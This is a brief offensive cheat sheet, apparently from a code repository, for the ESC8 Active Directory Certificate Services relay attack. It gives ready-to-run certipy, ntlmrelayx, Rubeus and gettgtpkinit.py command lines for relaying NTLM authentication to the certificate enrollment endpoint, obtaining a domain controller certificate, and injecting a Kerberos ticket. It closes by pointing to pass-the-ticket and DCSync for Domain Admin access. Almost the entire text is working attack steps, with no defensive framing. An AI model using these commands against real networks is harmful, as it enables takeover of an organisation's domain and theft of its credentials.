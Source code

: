 # ESC8 - AD CS Relay Attack

## Tools: ntlmrelayx , Rubeus , certipy , gettgtpkinit.py

#### 1) Certipy

 - certipy relay -ca CA_IP -template DomainController

 - certipy auth -pfx CERTIFICATE -dc-ip DC_IP

#### 2) ntlmrelayx

 - ntlmrelayx.py -t http://DC_IP/certsrv/certfnsh.asp -debug -smb2support --adcs --template DomainController

 - Rubeus.exe asktgt /user:USER /certificate:BASE64_CERTIFICATE /ptt

## OR

 - gettgtpkinit.py -pfx base64 $(cat CERT.B64) DOMAIN/DC_NAME$ CCACHE_FILE

### This attack utilizes Pass the Ticket lateral movement, then proceed to DCSync on the DC to gain Domain Admin Access

